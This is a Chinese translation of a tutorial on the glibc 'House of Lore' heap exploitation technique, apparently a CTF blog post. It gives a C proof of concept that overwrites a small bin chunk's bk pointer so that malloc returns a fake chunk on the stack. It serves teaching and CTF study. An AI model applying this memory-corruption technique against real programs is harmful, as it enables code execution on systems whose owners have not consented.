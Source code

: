 ```yaml
---
title: Heap Exploitation系列翻译-14 House of Lore
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# House of Lore

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这项攻击基本上是对于small bin和large bin的伪造堆块攻击. 然而, 因为约在2007年(对`fd_nextsize`和`bk_nextsize`的引入)一个新增的对large bin的保护, 该项技术变得不再可行. 这里我们只考虑small bin的情形. 首先, 一个small chunk会被放置在small bin中, 它的`bk`指针会被覆写成指向一个伪造的small chunk. 要注意的是在small bin的情况下, 插入操作发生在`首部`而移除操作发生在`尾部`. 一次malloc调用将首先移除bin中理应存在的堆块从而致使我们的伪堆块到了bin的`尾部`. 再下一次malloc调用就会返回攻击者的堆块.

考虑以下示例代码(下载完整版本 [这里](/files/heap-exploition/files/house_of_lore.c)))

```c
struct small_chunk {
  size_t prev_size;
  size_t size;
  struct small_chunk *fd;
  struct small_chunk *bk;
  char buf[0x64];               // chunk falls in smallbin size range
};

struct small_chunk fake_chunk;                  // At address 0x7ffdeb37d050
struct small_chunk another_fake_chunk;
struct small_chunk *real_chunk;
unsigned long long *ptr, *victim;
int len;

len = sizeof(struct small_chunk);

// Grab two small chunk and free the first one
// This chunk will go into unsorted bin
ptr = malloc(len);                              // points to address 0x1a44010

// The second malloc can be of random size. We just want that
// the first chunk does not merge with the top chunk on freeing
malloc(len);                                    // points to address 0x1a440a0

// This chunk will end up in unsorted bin
free(ptr);

real_chunk = (struct small_chunk *)(ptr - 2);   // points to address 0x1a44000

// Grab another chunk with greater size so as to prevent getting back
// the same one. Also, the previous chunk will now go from unsorted to
// small bin
malloc(len + 0x10);                             // points to address 0x1a44130

// Make the real small chunk's bk pointer point to &fake_chunk
// This will insert the fake chunk in the smallbin
real_chunk->bk = &fake_chunk;
// and fake_chunk's fd point to the small chunk
// This will ensure that 'victim->bk->fd == victim' for the real chunk
fake_chunk.fd = real_chunk;

// We also need this 'victim->bk->fd == victim' test to pass for fake chunk
fake_chunk.bk = &another_fake_chunk;
another_fake_chunk.fd = &fake_chunk;

// Remove the real chunk by a standard call to malloc
malloc(len);                                    // points at address 0x1a44010

// Next malloc for that size will return the fake chunk
victim = malloc(len);                           // points at address 0x7ffdeb37d060
```

要注意到, 构造一个small chunk需要更多的步骤, 这是因为small chunks复杂的处理操作. 需要特别小心以确保每一个将要使用malloc返回的small chunk都满足`victim->bk->fd == victim`, 以通过安全检查"malloc(): smallbin double linked list corrupted". 此外也添加了额外的'malloc'调用以确保:

1. 第一个堆块在释放时会添加到unsorted bin而不是和top chunk合并
2. 第一个堆块会进入到small bin中因为它不满足大小为`len + 0x10`的malloc申请.

unsorted bin和small bin的状态如下所示

1. free(ptr).
  Unsorted bin:
  > head <-> ptr <-> tail

  Small bin:
  > head <-> tail
2. malloc(len + 0x10);
  Unsorted bin:
  > head <-> tail

  Small bin:
  > head <-> ptr <-> tail
3. Pointer manipulations1
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> fake_chunk <-> ptr <-> tail
4. malloc(len)
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> fake_chunk <-> tail
5. malloc(len)
  Unsorted bin:
  > head <-> tail

  Small bin:
  > undefined <-> tail         [ Fake chunk is returned ]

注意, 再次对small bin进行'malloc'调用会造成段错误
